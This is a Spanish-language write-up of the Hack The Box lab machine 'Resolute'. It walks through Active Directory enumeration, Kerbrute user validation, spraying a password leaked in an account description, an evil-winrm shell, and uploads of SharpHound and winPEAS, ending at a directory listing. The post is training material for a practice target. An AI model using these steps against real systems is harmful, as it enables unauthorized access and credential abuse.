







+++
author = "Andrés Del Cerro"
title = "Hack The Box: Resolute Writeup | Medium"
date = "2024-09-07"
description = ""
tags = [
    "HackTheBox",
    "Resolute",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "SMB Enumeration",
    "LDAP Enumeration",
    "Kerbrute",
    "ASREPRoast",
    "RPC Enumeration",
    "Information Disclosure",
    "Password Spraying",
    "Abusing WinRM",
    "User Pivoting",
    "Bloodhound Enumeration",
    "Winpeas Enumeration",
    "Abusing DnsAdmin Group",
    "Sliver",
    "C2",
    "Creating Malicious DLL"
]

+++

# Hack The Box: Resolute Writeup

Welcome to my detailed writeup of the medium difficulty machine **"Resolute"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.201.75 --ulimit 5000 -g
10.129.201.75 -> [53,88,135,139,389,445,464,593,3268,9389,47001,49664,49665,49666,49667,49670,49676,49682,49677,49731]
```

```console
$ nmap -p53,88,135,139,389,445,464,593,3268,9389,47001,49664,49665,49666,49667,49670,49676,49682,49677,49731 -sCV 10.129.201.75 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 21:11 CEST
Nmap scan report for 10.129.201.75
Host is up (0.037s latency).

PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2024-09-07 17:18:30Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp   open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
3268/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
9389/tcp  open  mc-nmf       .NET Message Framing
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49670/tcp open  msrpc        Microsoft Windows RPC
49676/tcp open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        Microsoft Windows RPC
49682/tcp open  msrpc        Microsoft Windows RPC
49731/tcp open  unknown
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2024-09-07T10:19:20-07:00
| smb2-time: 
|   date: 2024-09-07T17:19:21
|_  start_date: 2024-09-07T17:14:13
|_clock-skew: mean: 27m02s, deviation: 4h02m30s, median: -1h52m58s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.23 seconds

```

# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.201.75 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-07 21:11 CEST
Nmap scan report for 10.129.201.75
Host is up (0.038s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
88/udp    open   kerberos-sec
123/udp   open   ntp
17673/udp closed unknown
20164/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 1.12 seconds
```

Del escaneo inicial encontramos el dominio `megabank.local`, lo añadimos al `/etc/hosts`

# SMB Enumeration
Podemos intentar enumerar el SMB con `smbmap` y `smbclient` haciendo uso de una null session pero no conseguimos nada.
```console
$ smbmap -H 10.129.201.75 -u ''
[+] IP: 10.129.201.75:445       Name: megabank.local 
```

```console
$ smbclient -L \\10.129.201.75 -U '' -N

        Sharename       Type      Comment
        ---------       ----      -------
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.201.75 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```

```console
$ smbclient -L \\10.129.201.75 -U 'null' -N
session setup failed: NT_STATUS_LOGON_FAILURE
```

# LDAP Enumeration
Podemos ver sin necesidad de credenciales válidas varios usuarios en el LDAP.
```console
$ ldapsearch -x -H ldap://megabank.local -D '' -w '' -b "DC=MEGABANK,DC=LOCAL" > ldapdump.txt
```



Podemos filtrar por nombre de usuario y crear una lista de usuarios.
```console
$ ldapsearch -x -H ldap://megabank.local -D '' -w '' -b "CN=Users,DC=MEGABANK,DC=LOCAL" | grep sAMAccountName: | awk '{print $2}' > users.txt
```

De esta forma habrán varias líneas que no correspondan a usuarios válidos pero no pasa nada.

Porque ahora con `kerbrute` podemos validar que usuarios son válidos.
```console
$ /opt/kerbrute userenum --dc 10.129.201.75 users.txt -d megabank.local                                        
                                                                                                                       
    __             __               __                                                                                 
   / /_____  _____/ /_  _______  __/ /____                                                                             
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \                                                                            
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/                                                                            
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        
                                                                                                                       
Version: v1.0.3 (9dad6e1) - 09/07/24 - Ronnie Flathers @ropnop        
                                                                                                                       
2024/09/07 21:34:38 >  Using KDC(s):                                                                                   
2024/09/07 21:34:38 >   10.129.201.75:88                                                                               
                                                                                                                       
2024/09/07 21:34:38 >  [+] VALID USERNAME:       sunita@megabank.local 
2024/09/07 21:34:38 >  [+] VALID USERNAME:       abigail@megabank.local
2024/09/07 21:34:38 >  [+] VALID USERNAME:       marcus@megabank.local 
2024/09/07 21:34:38 >  [+] VALID USERNAME:       fred@megabank.local  
2024/09/07 21:34:38 >  [+] VALID USERNAME:       sally@megabank.local  
2024/09/07 21:34:38 >  [+] VALID USERNAME:       felicia@megabank.local
2024/09/07 21:34:38 >  [+] VALID USERNAME:       angela@megabank.local                                                                            
2024/09/07 21:34:38 >  [+] VALID USERNAME:       gustavo@megabank.local                                                                           
2024/09/07 21:34:38 >  [+] VALID USERNAME:       ulf@megabank.local                                                                               
2024/09/07 21:34:38 >  [+] VALID USERNAME:       stevie@megabank.local                                                                            
2024/09/07 21:34:38 >  [+] VALID USERNAME:       claire@megabank.local                                                                                                       
2024/09/07 21:34:38 >  [+] VALID USERNAME:       paulo@megabank.local                                                                                                        
2024/09/07 21:34:38 >  [+] VALID USERNAME:       annette@megabank.local                                                                                                      
2024/09/07 21:34:38 >  [+] VALID USERNAME:       steve@megabank.local                                                                                                        
2024/09/07 21:34:38 >  [+] VALID USERNAME:       annika@megabank.local                                                                                                       
2024/09/07 21:34:38 >  [+] VALID USERNAME:       per@megabank.local                                                                                                          
2024/09/07 21:34:38 >  [+] VALID USERNAME:       claude@megabank.local                                                                                                                                             
2024/09/07 21:34:38 >  [+] VALID USERNAME:       melanie@megabank.local                                                                                                                                            
2024/09/07 21:34:38 >  [+] VALID USERNAME:       zach@megabank.local                                                                                                                                               
2024/09/07 21:34:38 >  [+] VALID USERNAME:       simon@megabank.local                                                                                                                                              
2024/09/07 21:34:38 >  [+] VALID USERNAME:       naoki@megabank.local                                                                                                                                              
2024/09/07 21:34:38 >  Done! Tested 38 usernames (21 valid) in 0.168 seconds   
```

Podemos meter todos esos usuarios en un fichero `users.txt` y con `awk` quedarnos solo con el nombre de usuario.
```console
$ cat u.txt  | awk '{print $7}' | awk -F@ '{print $1}' > users.txt && cat users.txt
sunita
abigail
marcus
fred
sally
felicia
angela
gustavo
ulf
stevie
claire
paulo
annette
steve
annika
per
claude
melanie
zach
simon
naoki
```
## ASREPRoast (failed)
Y ahora tenemos una lista válidas de usuario, estoy es muy útil ya que ahora podemos intentar hacer un ataque de tipo ASREPRoast para detectar si algún usuario tiene el atributo `DONT_REQUIRE_PREAUTH` y capturar un TGT para poder crackearlo de forma offline.

Ahora con `GetNPUsers` de la suite de `impacket` podemos comprobar esto.

```console
$ impacket-GetNPUsers -no-pass -usersfile users.txt megabank.local/                           21:39:27 [1/9961]
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation                                                               

[-] User sunita doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User abigail doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User marcus doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fred doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sally doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User felicia doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User angela doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User gustavo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ulf doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User stevie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claire doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User paulo doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annette doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User steve doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User annika doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User per doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User claude doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User melanie doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User zach doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User simon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User naoki doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Pero no detectamos ningún usuario que cumpla este requisito.

## Enumerating RPC -> Information Disclosure
Podemos utilizar `rpcclient` y nos damos cuenta de que también podemos enumerar información interna haciendo uso de una null session pero ahora a través del protocolo RPC.
```console
$ rpcclient -N -U "" 10.129.201.75                                                                             
rpcclient $> enumdomusers                                                                                              
user:[Administrator] rid:[0x1f4]                                                                                       
user:[Guest] rid:[0x1f5]                                                                                               
user:[krbtgt] rid:[0x1f6]                                                                                              
user:[DefaultAccount] rid:[0x1f7]                                                                                      
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
```

En estos casos, me gusta utilizar [rpcenum](https://github.com/s4vitar/rpcenum) una herramienta en bash hecha por s4vitar para extraer información del dominio utilizando `rpcclient`

Nos clonamos el repo.
```console
$ git clone https://github.com/s4vitar/rpcenum
Cloning into 'rpcenum'...
remote: Enumerating objects: 54, done.
remote: Counting objects: 100% (19/19), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 54 (delta 15), reused 14 (delta 14), pack-reused 35 (from 1)
Receiving objects: 100% (54/54), 577.54 KiB | 3.24 MiB/s, done.
Resolving deltas: 100% (15/15), done.
```

Con esta herramienta podemos listar los usuarios del dominio incluyendo sus descripciones "si tenemos permisos para ello"

```console
$ sudo ./rpcenum -e DUsersInfo -i 10.129.201.75

[*] Listing domain users with description...


  +                 +                                                           +
  | User            | Description                                               |
  +                 +                                                           +
  | Administrator   | Built-in account for administering the computer/domain    |
  | Guest           | Built-in account for guest access to the computer/domain  |
  | krbtgt          | Key Distribution Center Service Account                   |
  | DefaultAccount  | A user account managed by the system.                     |
  | marko           | Account created. Password set to Welcome123!              |
  +                 +                                                           +

```

Vemos una descripción para el usuario `marko` y nos indica que la credencial inicial de esta cuenta es `Welcome123!`

Podemos comprobarlo con `netexec`
```console
 nxc smb 10.129.201.75 -u marko -p 'Welcome123!'
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\marko:Welcome123! STATUS_LOGON_FAILURE
```

Nos indica que la credencial no es válida.

Podemos probar esta credencial con todas las cuentas de usuario.

```console
$ nxc smb 10.129.201.75 -u users.txt -p 'Welcome123!' --continue-on-success                   21:47:23 [1/9225]
SMB         10.129.201.75   445    RESOLUTE         [*] Windows Server 2016 Standard 14393 x64 (name:RESOLUTE) (domain:megabank.local) (signing:True) (SMBv1:True)
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\sunita:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\abigail:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\marcus:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\fred:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\sally:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\felicia:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\angela:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\gustavo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\ulf:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\stevie:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\claire:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\paulo:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\annette:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\steve:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\annika:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\per:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\claude:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [+] megabank.local\melanie:Welcome123! 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\zach:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\simon:Welcome123! STATUS_LOGON_FAILURE 
SMB         10.129.201.75   445    RESOLUTE         [-] megabank.local\naoki:Welcome123! STATUS_LOGON_FAILURE 
```

Y detectamos que esa credencial también la tiene el usuario `melanie`

## Abusing WinRM -> Foothold
```console
$ nxc winrm 10.129.201.75 -u melanie -p 'Welcome123!'
WINRM       10.129.201.75   5985   RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.129.201.75   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
```

Vemos que este usuario parece estar en el grupo `Remote Management Users` por lo cual podemos hacer uso de herramientas como `evil-winrm` para conseguir una consola en la máquina víctima.

```console
$ nxc winrm 10.129.201.75 -u melanie -p 'Welcome123!'
WINRM       10.129.201.75   5985   RESOLUTE         [*] Windows 10 / Server 2016 Build 14393 (name:RESOLUTE) (domain:megabank.local)
WINRM       10.129.201.75   5985   RESOLUTE         [+] megabank.local\melanie:Welcome123! (Pwn3d!)
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/resolute/content]
└──╼ [★]$ evil-winrm -i 10.129.201.75 -u melanie -p 'Welcome123!'
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami
megabank\melanie
```

Podemos ver la flag de usuario
```console
*Evil-WinRM* PS C:\Users\melanie\Desktop> type user.txt
3f3fe89c6f34ca3e...
```

# User Pivoting

El usuario `melanie` no tiene ningún privilegio especial.
```console
*Evil-WinRM* PS C:\Users\melanie\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

Vemos el directorio personal del usuario `ryan` y vemos que pertenece a un grupo llamado `Contractors` que es un poco extraño.
```console
*Evil-WinRM* PS C:\Users> dir                                                                                         
                                                                                                                       
                                                                                                                       
    Directory: C:\Users                                                                                                
                                                                                                                       
                             
Mode                LastWriteTime         Length Name      
----                -------------         ------ ----
d-----        9/25/2019  10:43 AM                Administrator                                                                                                                                                     
d-----        12/4/2019   2:46 AM                melanie                              
d-r---       11/20/2016   6:39 PM                Public    
d-----        9/27/2019   7:05 AM                ryan      
                                                           
                                                           
*Evil-WinRM* PS C:\Users> net user ryan
User name                    ryan                                                                        
Full Name                    Ryan Bertrand       
Comment                                                                               
User's comment                                                                        
Country/region code          000 (System Default)                                     
Account active               Yes  
Account expires              Never                                                                       
                                                           
Password last set            9/7/2024 11:02:02 AM                                                        
Password expires             Never                                                                       
Password changeable          9/8/2024 11:02:02 AM                                                                                                 
Password required            Yes                                         
User may change password     Yes                                                                         
                                                                                      
Workstations allowed         All                                                                         
Logon script                               
User profile                                                                                                                                                                 
Home directory                                                                        
Last logon                   Never                                                                       
                                           
Logon hours allowed          All                                                                         

Local Group Memberships                             
Global Group memberships     *Domain Users         *Contractors                                                                                                                                                    
The command completed successfully.                                                                      


```

## Bloodhound
Vamos a subir el `SharpHound` para recolectar información sobre el dominio y detectar formas de escalar privilegios en el dominio con `bloodhound`

Subimos el `SharpHound` a través de la función `upload` de `evil-winrm`
```console
*Evil-WinRM* PS C:\ProgramData> upload SharpHound.exe
                                        
Info: Uploading /home/pointedsec/Desktop/resolute/content/SharpHound.exe to C:\ProgramData\SharpHound.exe
                                        
Data: 1402880 bytes of 1402880 bytes copied
                                        
Info: Upload successful!

```

Ahora podemos lanzar la herramienta.
```console
*Evil-WinRM* PS C:\ProgramData> .\SharpHound.exe -c All -d megabank.local
2024-09-07T11:11:55.2405987-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
2024-09-07T11:11:55.4124823-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-07T11:11:55.4437225-07:00|INFORMATION|Initializing SharpHound at 11:11 AM on 9/7/2024
2024-09-07T11:11:55.5843471-07:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for megabank.local : Resolute.megabank.local
2024-09-07T11:12:07.7250013-07:00|INFORMATION|Flags: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
2024-09-07T11:12:07.8968782-07:00|INFORMATION|Beginning LDAP search for megabank.local
2024-09-07T11:12:07.9593752-07:00|INFORMATION|Producer has finished, closing LDAP channel
2024-09-07T11:12:07.9593752-07:00|INFORMATION|LDAP channel closed, waiting for consumers
2024-09-07T11:12:38.7876233-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 34 MB RAM
2024-09-07T11:13:08.8033238-07:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 36 MB RAM
2024-09-07T11:13:14.2720152-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-09-07T11:13:14.3032660-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-09-07T11:13:14.4595214-07:00|INFORMATION|Status: 123 objects finished (+123 1.863636)/s -- Using 42 MB RAM
2024-09-07T11:13:14.4595214-07:00|INFORMATION|Enumeration finished in 00:01:06.5750879
2024-09-07T11:13:14.5532817-07:00|INFORMATION|Saving cache with stats: 80 ID to type mappings.
 80 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-09-07T11:13:14.5688900-07:00|INFORMATION|SharpHound Enumeration Completed at 11:13 AM on 9/7/2024! Happy Graphing!
```

Nos descargamos el zip que genera utilizando `download` de `evil-winrm`
```console
-a----         9/7/2024  11:13 AM          13467 20240907111313_BloodHound.zip
```

Ahora iniciamos la base de datos que utiliza `bloodhound`, `neo4j`
```console
$ sudo neo4j start
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
Started neo4j (pid:5212). It is available at http://localhost:7474
There may be a short delay until the server is ready.
```

Y ya podemos abrir `bloodhound` e importar el zip.


Una vez importado, buscamos a `melanie` y la marcamos como owneada.


Detectamos que el usuario `Administrator` tiene una sesión en el DC.


Aunque no encontramos nada relevante para el usuario `ryan`

## Winpeas
Vamos a pasar el `winpeas` para ver si conseguimos información relevante.

Primero lo subimos a la máquina víctima, estoy subiendo la versión en .bat ya que por alguna razón los ejecutables no puedo ejecutarlos ya que me reporta que no son válidos para la versión del sistema operativo.
```console
*Evil-WinRM* PS C:\ProgramData> upload winPEAS.bat                                                                                                
                                                                                                                                                  
Info: Uploading /home/pointedsec/Desktop/resolute/content/winPEAS.bat to C:\ProgramData\winPEAS.bat                                               
                                                                                                                                                  
Data: 48236 bytes of 48236 bytes copied                                                                                                           
                                                                                                                                                  
Info: Upload successful!  
```

No encontramos nada en el reporte de `winpeas`

Detectamos un directorio oculto llamado `PSTranscripts` en la raíz del sistema.
```console
*Evil-WinRM* PS C:\> dir -force


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        12/3/2019   6:40 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
